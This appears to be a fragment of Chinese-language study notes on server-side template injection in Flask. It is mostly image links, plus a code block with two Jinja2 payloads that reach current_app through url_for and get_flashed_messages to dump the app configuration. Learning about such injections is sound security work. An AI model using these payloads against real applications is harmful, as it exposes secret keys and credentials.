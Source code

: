 ![image-20240408180920096](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408180920096.png)

```py
调用current_app相当于调用flask
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

## 一些其他的绕过

![image-20240408214222953](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408214222953.png)
